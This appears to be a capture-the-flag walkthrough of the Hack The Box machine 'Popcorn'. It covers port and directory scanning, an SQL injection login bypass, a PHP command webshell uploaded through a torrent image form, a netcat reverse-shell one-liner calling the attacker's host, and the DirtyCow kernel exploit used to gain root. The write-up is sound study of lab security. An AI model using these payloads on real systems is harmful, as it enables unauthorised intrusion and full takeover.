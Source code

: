 First enumeration with nmap 

```
# Nmap 7.93 scan initiated Wed May 17 12:13:10 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 17 12:13:24 2023 -- 1 IP address (1 host up) scanned in 14.03 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/34f2bb05-236d-4107-95e9-4f812e523e1c)

noticed a web server running on port 80, openning it on a browser, got directed to a default web page. let's fuzz for hidden dirs.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn] 
└─$ dirb http://10.10.10.6/                                                                                                                                            
                                                                                                                                                                       
-----------------                                                                                                                                                      
DIRB v2.22                                                                                                                                                             
By The Dark Raver                                                                                                                                                      
-----------------                                                                                                                                                      
                                                                                                                                                                       
START_TIME: Wed May 17 11:43:45 2023                                                                                                                                   
URL_BASE: http://10.10.10.6/                                                                                                                                           
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                                                   
                                                                                                                                                                       
-----------------                                                                                                                                                      
                                                                                                                                                                       
GENERATED WORDS: 4612                                                                                                                                                  
                                                                                                                                                                       
---- Scanning URL: http://10.10.10.6/ ----                                                                                                                             
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                                       
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                                          
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                                     
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                                  
+ http://10.10.10.6/test (CODE:200|SIZE:47330)                                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/ 

---- Entering directory: http://10.10.10.6/torrent/ ----                                                                                                               
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                                        
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)                                                                                                                
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)                                                                                                                
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)
```
cool we have a juicy dir `torrent`, let's check it out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/818c8009-fae9-4ced-8fe2-f57b84f03ab2)

navigating to the torrent dir, got directed to a torrent hoster cms. let's try to login.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2a79dbbc-fc62-46d0-ac5b-75dac33f7cd4)

tried to bypass the login page using sqli payload `admin' or 1=1-- :admin' or 1=1-- `...

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/80fd833d-d2ac-4f51-a0bb-1f2fbc90094c)

Bull's eye it worked, we are in as admin. let's check for how to exploit this service `Torrent Hoster`. there's a file upload vuln let's exploit it.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn]
└─$ wget https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
--2023-05-18 00:31:47--  https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
Resolving cdimage.kali.org (cdimage.kali.org)... 192.99.200.113
Connecting to cdimage.kali.org (cdimage.kali.org)|192.99.200.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://kali.download/base-images/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent [following]
--2023-05-18 00:31:49--  https://kali.download/base-images/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
Resolving kali.download (kali.download)... 104.18.103.100, 104.18.102.100, 2606:4700::6812:6664, ...
Connecting to kali.download (kali.download)|104.18.103.100|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 296259 (289K) [application/octet-stream]
Saving to: ‘kali-linux-2023.1-installer-amd64.iso.torrent’

kali-linux-2023.1-installer-amd64.iso.tor 100%[====================================================================================>] 289.32K   284KB/s    in 1.0s    

2023-05-18 00:31:51 (284 KB/s) - ‘kali-linux-2023.1-installer-amd64.iso.torrent’ saved [296259/296259]
```
first we download a torrent file from [torrent](https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/160d762d-b62e-4dbd-9976-5603fb77ab5d)

click on the upload button and upload the torrent file you downloaded, after that click the upload torrent button.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9238a81c-d1c1-425e-96fc-dcec1361701a)

after uploading the torrent file, it will show there's no image file found. click on edit this torrent.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5e1931b-21ed-43b2-9096-c29650a15abe)

upload an image file then intercept with burp.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30f23cfb-585b-40c4-9d0a-c282809b383d)

delete all that image content, put a payload 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/842c14a9-30e3-429f-b5ab-f77cc85b10eb)

replace those content with the php cmd webshell payload above, add .php to the image file, and send the request. now let's check the shell in the /upload dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/56a5585c-d30f-4a00-904e-614e9d74294b)

cool we got our php shell, let's try it out if we got RCE.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/943da629-c8ec-4dcc-a2fc-8a61f0b50853)

great we got RCE. let's get a reverse shell. fire up ncat listener 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 445 >/tmp/f
```
reverse shell payload.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1b6c65ba-e475-410c-ba69-fd80e3881ae6)

send the payload and check back ncat listener.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn]
└─$ ncat -lnvp 445                                            
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:42739.
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@popcorn:/var/www/torrent/upload$ 
```
bingo we got a reverse shell...


## Privilege Escalation 

```
www-data@popcorn:/tmp$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/tmp$
```
checking the kernel version, we can see it is running an old version of ubuntu. let's try out `dirtycow` exploit.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1f4edaae-ae09-45bb-87d7-8679cdb711c1)

found an exploit using searchsploit. let's send it to the target and compile it.

```
www-data@popcorn:/tmp$ wget http://10.10.14.14/40839.c
--2023-05-18 22:14:33--  http://10.10.14.14/40839.c
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `40839.c'

100%[==============================================================================================>] 4,814       --.-K/s   in 0.008s  

2023-05-18 22:14:33 (604 KB/s) - `40839.c' saved [4814/4814]

www-data@popcorn:/tmp$ gcc -pthread 40839.c dirty -lcrypt
gcc: dirty: No such file or directory
www-data@popcorn:/tmp$ gcc -pthread 40839.c -o dirty -lcrypt
www-data@popcorn:/tmp$ ls -al dirty 
-rwxr-xr-x 1 www-data www-data 13603 May 18 22:15 dirty
www-data@popcorn:/tmp$ 
```
send the exploit to the target and compiled it. now let's run the exploit.

```
www-data@popcorn:/tmp$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiOEyJZz3b5lA:0:0:pwned:/root:/bin/bash

mmap: b787c000

^C
www-data@popcorn:/tmp$ su firefart
Password: 
firefart@popcorn:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/tmp# 
```
ran the exploit, it creates a backup file for `/etc/passwd` and modify the current one by creating a user `firefart` request a password we can use to login and giving it the sudo group privilege. abd Bull's eye got root.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fb134dd8-a64e-4139-9fe4-6626e5c0d801)

hand we are through... Had fun yeah? 😉









